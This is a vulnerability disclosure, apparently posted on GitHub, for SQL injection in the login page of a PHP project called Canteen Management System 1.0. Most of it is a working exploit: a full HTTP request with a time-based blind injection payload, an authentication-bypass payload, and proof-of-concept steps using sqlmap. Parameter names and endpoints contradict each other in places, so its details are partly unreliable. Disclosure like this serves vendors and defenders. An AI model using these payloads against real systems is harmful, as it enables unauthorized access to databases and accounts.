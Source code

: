 # Canteen Management System - login.php 'medicine' SQL inject

#### Exploit Title: Canteen Management System - login.php 'medicine' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Software Link:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Version: Canteen Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Canteen Management System does not filter the content correctly at the "login.php /username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /medicine_details.php HTTP/1.1
POST /login.php HTTP/1.1
Host: 192.168.67.10:8091
Content-Length: 97
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.10:8091
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.10:8091/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g1diqn5ba9l5npktcpl5jc287t
Connection: close

username=1' AND (SELECT 6691 FROM (SELECT(SLEEP(5)))slLY) AND 'lrcD'='lrcD&password=123456&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

![](D:\cves\youthappam\images\login.png)

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

![](D:\cves\youthappam\images\usernamesouce.png)

3、Use payload "sleep (10)" for blind SQL injection.It is found that the time blind injection is successful

![usernameburp](D:\cves\youthappam\images\usernameburp.png)

4、We can also construct a payload for universal password login

payload:`email=manager%40manager.com&password=1'or '1'='1&managerLogin=`

![usernameloginsuccess](D:\cves\youthappam\images\usernameloginsuccess.png)

4、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

![usernamesqlmap](D:\cves\youthappam\images\usernamesqlmap.png)

